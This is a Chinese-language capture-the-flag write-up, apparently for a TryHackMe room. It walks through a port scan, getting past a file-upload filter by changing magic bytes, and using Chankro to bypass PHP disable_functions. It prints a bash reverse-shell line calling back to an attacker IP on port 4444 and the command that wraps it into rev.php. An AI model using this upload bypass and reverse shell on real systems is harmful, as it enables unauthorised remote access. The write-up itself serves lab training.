 ```yaml
---
sidebar_position: 2
tags: [Easy, Linux, 文件上传]
title: Bypass Disable Functions
description: 在 PHP 文件上传时遇到函数限制如何绕过
---
```

# Bypass Disable Functions
## 端口扫描
```bash
root@ip-10-10-239-179:~# rustscan -a 10.10.12.68 -r 1-65535 -t 1000 -u 1000 -- -sT
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com

[~] The config file is expected to be at "/home/rustscan/.rustscan.toml"
[~] Automatically increasing ulimit value to 1000.
[!] File limit is lower than default batch size. Consider upping with --ulimit. May cause harm to sensitive servers
[!] Your file limit is very small, which negatively impacts RustScan's speed. Use the Docker image, or up the Ulimit with '--ulimit 5000'. 
Open 10.10.12.68:22
Open 10.10.12.68:80
```
## 80
经过简单的查询我们发现了一个文件上传的位置：

![20240525004016](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525004016.png)

我们来下载一个反向 SHELL 文件， 下载到本地后， 开启我们的 Burp, 进行拦截发包， 经过测试发现只能上传 `.jpg` 文件， 此时我们需要绕过后端过滤, 经过查询后发现修改文件幻数就可以绕过检测

![20240525004030](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525004030.png)

现在我们来查找一下对应的上传位置, 发现文件上传位置， 我们进行访问

![20240525004044](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525004044.png)

我们来访问我们的文件可以发现获取到 SHELL  但是马上关闭， 我们查看房间， 了解到需要做一些规避

首先根据提示内容， 我们需要先找到对应服务器的路径， 在目录遍历时， 我们发现了一个 `phpinfo()` 在此我们可以找到对于服务器路径

![20240525004059](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525004059.png)

然后我们下载对应的文件以及对应的 payload 来生成我们的 rev.php
```bash
$ cat rev.sh                                                                                    ✔ 
#!/bin/bash

/bin/bash -i >& /dev/tcp/10.13.31.216/4444 0>&1
$ python2 chankro.py --arch 64 --input rev.sh --output rev.php --path /var/www/html/fa5fba5f5a39d27d8bb7fe5f518e00db


     -=[ Chankro ]=-
    -={ @TheXC3LL }=-


[+] Binary file: rev.sh
[+] Architecture: x64
[+] Final PHP: rev.php


[+] File created!
```
按照前面的思路再次将文件上传上去之后， 在本地开启监听进行检测

![20240525004131](https://raw.githubusercontent.com/Guardian-JTZ/Image/main/img/20240525004131.png)

